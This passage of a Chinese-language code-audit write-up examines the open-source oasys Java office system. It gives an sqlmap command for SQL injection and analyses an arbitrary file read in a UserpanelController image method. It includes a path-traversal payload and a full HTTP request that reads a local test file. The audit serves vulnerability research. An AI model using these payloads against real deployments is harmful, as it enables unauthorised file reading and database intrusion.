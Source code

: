 保存数据包到txt文件，使用sqlmap一把梭，命令：

```php
python sqlmap.py -r “oasys.txt” -v 3 -level=5
```

![image-20240129142239166](https://shs3.b.qianxin.com/attack_forum/2024/02/attach-cd99cc8a424e1ab360f70ed1e03605f43a95cfee.png)

剩下还有一个可以sql注入的功能在**通知列表**、审计方法相同这就贴几张图不细说了

![image-20240131022845828](https://shs3.b.qianxin.com/attack_forum/2024/02/attach-06ca6637c1a40a9f7fea99c1657a4910c965cc1b.png)

![image-20240129133501697](https://shs3.b.qianxin.com/attack_forum/2024/02/attach-96516fab38f46052fd5ab83327c2836ed2865827.png)

![image-20240129133230547](https://shs3.b.qianxin.com/attack_forum/2024/02/attach-875b533c521dcef1b19a4b74d2a9df62f1f49412.png)

![image-20240129133652095](https://shs3.b.qianxin.com/attack_forum/2024/02/attach-b18df0511b723fc27de52e37f1f0f80053eea185.png)

### 03、任意文件读取

![image-20240131023426210](https://shs3.b.qianxin.com/attack_forum/2024/02/attach-62d653fb89143dc5e8b4fa1cf1e629868313b6b2.png)

这块有俩其实都一样，咱就挑一个分析就OK

这块是直接给出了有风险的代码位置`oa_system-master/src/main/java/cn/gson/oasys/controller/user/UserpanelController.java`方法名`image`

![image-20240131023635884](https://shs3.b.qianxin.com/attack_forum/2024/02/attach-7b42860b45766e2f7f863d4f30b9cdab89abcd27.png)

projectPath：当前项目路径

startpath：获取请求URI

这块唯一的处理就是把URI中的`/images`替换为空，之后就创建`file`对象

也没有对文件内容做啥检测就输出了

构造payload：

```php
/image//image..//image..//image..//image..//image..//image../test.txt
```

新建一个测试文件

![image-20240131024350969](https://shs3.b.qianxin.com/attack_forum/2024/02/attach-f122acf63e96304d854a5857f07413ff348df436.png)

成功读取到桌面文件

![image-20240131025051402](https://shs3.b.qianxin.com/attack_forum/2024/02/attach-b60fd668408ba6211477ea6afca7a1e25f859187.png)

具体的payload还要看自己在配置文件中的`rootpath`

![image-20240131025325982](https://shs3.b.qianxin.com/attack_forum/2024/02/attach-f3d0a49a3eab3cbbcdd548db105c84be5c10ebd6.png)

```php
GET /image//image..//image..//image..//image..//image..//image../test.txt HTTP/1.1
Host: 127.0.0.1
Accept-Language: zh-CN,zh;q=0.9
sec-ch-ua: "Not_A Brand";v="8", "Chromium";v="120", "Google Chrome";v="120"
Cookie: JSESSIONID=ED297E0C1F3E70B122CEEEA3481786D7
Referer: http://127.0.0.1/addrmanage
Sec-Fetch-Mode: cors
Accept: text/html, */*; q=0.01
X-Requested-With: XMLHttpRequest
sec-ch-ua-mobile: ?0
Sec-Fetch-Site: same-origin
Accept-Encoding: gzip, deflate, br
Origin: http://127.0.0.1
```